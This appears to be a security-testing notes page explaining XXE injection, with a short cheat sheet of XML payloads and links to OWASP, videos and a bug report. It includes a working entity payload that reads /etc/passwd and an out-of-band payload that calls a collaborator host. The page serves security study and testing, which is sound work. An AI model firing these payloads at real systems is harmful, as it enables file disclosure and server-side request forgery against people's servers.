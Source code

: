 # XML External Entity Injection (XXE)

> An _XML External Entity_ attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

### Payloads

#### Basic XML Examples

```markup
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>Parz</firstName>
 <lastName>ival</lastName>
</userInfo>
```

```markup
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY test "THIS IS A STRING!">]
>
<methodCall><methodName>&test;</methodName></methodCall>
```

Read a file:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY parzival SYSTEM "file:///etc/passwd"> ]>
<data>&parzival;</data>
```

{% embed url="https://github.com/payloadbox/xxe-injection-payload-list" %}

Out of Band

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://burp.collab.server" >]><foo>&xxe;</foo>
```

### Introductions to XXE

{% embed url="https://www.youtube.com/watch?v=0DQnWalxYb4" %}

{% embed url="https://www.youtube.com/watch?v=Jo7qG8VcTeA" %}

{% embed url="https://www.youtube.com/watch?v=aSiIHKeN3ys" %}

### References

{% embed url="https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing" %}

{% embed url="https://hackerone.com/reports/347139" %}

{% embed url="https://www.slideshare.net/ssuserf09cba/xxe-how-to-become-a-jedi" %}
